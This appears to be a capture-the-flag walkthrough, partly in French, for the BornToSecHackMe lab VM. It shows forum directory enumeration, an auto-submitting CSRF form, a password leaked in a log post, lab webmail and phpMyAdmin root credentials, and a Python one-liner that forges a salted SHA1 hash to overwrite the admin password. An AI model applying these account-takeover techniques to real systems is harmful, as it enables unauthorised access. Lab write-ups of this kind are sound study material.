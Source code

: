 # Exploit the Forum

The forum can be access throught this URI: https://192.168.1.139:443/forum/

![img forum](/img/forum.png)

```bash
==> DIRECTORY: https://192.168.1.139:443/forum/

---- Entering directory: https://192.168.1.139:443/forum/ ----
==> DIRECTORY: https://192.168.1.139:443/forum/js/
==> DIRECTORY: https://192.168.1.139:443/forum/includes/
==> DIRECTORY: https://192.168.1.139:443/forum/js/
==> DIRECTORY: https://192.168.1.139:443/forum/lang/
==> DIRECTORY: https://192.168.1.139:443/forum/modules/
==> DIRECTORY: https://192.168.1.139:443/forum/templates_c/
==> DIRECTORY: https://192.168.1.139:443/forum/themes/
==> DIRECTORY: https://192.168.1.139:443/forum/update/
```

All of this directories are listable:

![img listable](/img/index-js.png)

https://192.168.1.139/forum/index.php?mode=register

mode=login&username=test&userpw=""

<form action="https://192.168.1.139/forum/index.php?mode=register" method="POST">
    <input type="hidden" name="username" value="test" />
    <input type="hidden" name="userpw" value="test" />
</form>
<script>
    document.forms[0].submit();
</script>

By reading the lmezard's post, we can't see this line:

```bash
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2the
```

Its seems to be a log, but the users did a mistake by passing his password instead of his username.

```bash
ssh admin@192.168.1.139 -p 22
Permission denied, please try again.
ssh nvdb@192.168.1.139 -p 22
Permission denied, please try again.
ssh adam@192.168.1.139 -p 22
Permission denied, please try again.
ssh guest@192.168.1.139 -p 22
Permission denied, please try again.
ssh lmezard@192.168.1.139 -p 22
Permission denied, please try again.
```

None of thos seems work. So i try with the website: Bingo !

Her personnal informations give us her mailaddress.

https://192.168.1.139:443/webmail/
laurie@borntosec.net !q\]Ej?*5K5cy*AJ mail

mail very interesting from : qudevide@mail.borntosec.net

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$
https://192.168.1.139:443/phpmyadmin/

section forum_db on peut voit dans mlf2_userdata qu'on peut edit les users dont leurs mot de passes hached 

manque plus qu'a savoir comment c'est hash, poour ca direction le code src du projet et bingo :

function generate_pw_hash($pw)
 {
  $salt = random_string(10,'0123456789abcdef');
  $salted_hash = sha1($pw.$salt);
  $hash_with_salt = $salted_hash.$salt;
  return $hash_with_salt;
 }

 on le replique en python : 
 python3 -c "import hashlib, random, string; salt = ''.join(random.choice(string.hexdigits) for _ in range(10)); pw = 'admin'; print(hashlib.sha1((pw + salt).encode()).hexdigest() + salt)"

755d3fc8e359cdc8d958882ef0c5b28d608832b436CBA99CCF

on modifie le hash de l'admin et bingo on peut se co avec 
admin admin